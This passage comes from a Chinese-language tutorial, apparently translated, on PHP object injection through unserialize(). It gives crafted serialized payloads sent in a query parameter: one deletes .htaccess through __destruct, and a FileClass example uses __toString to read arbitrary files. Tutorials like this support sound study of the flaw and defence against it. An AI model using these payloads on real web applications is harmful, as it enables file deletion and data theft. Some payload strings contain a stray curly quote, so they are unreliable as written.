 你看，这个代码调用了 “LogClass” 类，并且有一个 “unserialize” 值是我们可以注入的。

所以构造类似这样的东西：

```
script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;} 
```

究竟发生了什么呢，因为输入是可控的，所以我们可以构造任意的序列化对象，比如：

```
<?php

$obj = new LogFile();
$obj->filename = '.htaccess';

echo serialize($obj) . '<br />';

?>

```

这个会输出

```
O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess";} 
__destruct deletes ".htaccess" file. 
```

现在我们将构造过后的序列化对象发送给刚才的脚本：

```
script.php?usr_serialized=O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess”;} 
```

这会输出

```
__destruct deletes ".htaccess" file. 
```

现在 .htaccess 已经被干掉了，因为脚本结束时 __destruct 会被调用。不过我们已经可以控制“LogFile”类的变量啦。

这就是漏洞名称的由来：变量可控并且进行了 unserialize 操作的地方注入序列化对象，实现代码执行或者其他坑爹的行为。

虽然这不是一个很好的例子，不过我相信你可以理解这个概念，unserialize 自动调用 __wakeup 和 __destruct，接着攻击者可以控制类变量，并且攻击 web 程序。

## 0x06 常见的注入点

* * *

先不谈 __wakeup 和 __destruct，还有一些很常见的注入点允许你利用这个类型的漏洞，一切都是取决于程序逻辑。

打个比方，某用户类定义了一个 __toString 为了让应用程序能够将类作为一个字符串输出（echo $obj） ,而且其他类也可能定义了一个类允许 __toString 读取某个文件。

```
<?php 

// … 一些 include ...

class FileClass
{
    // 文件名

    public $filename = 'error.log';

    //当对象被作为一个字符串会读取这个文件

    public function __toString()
    {
        return file_get_contents($this->filename);
    }
}
```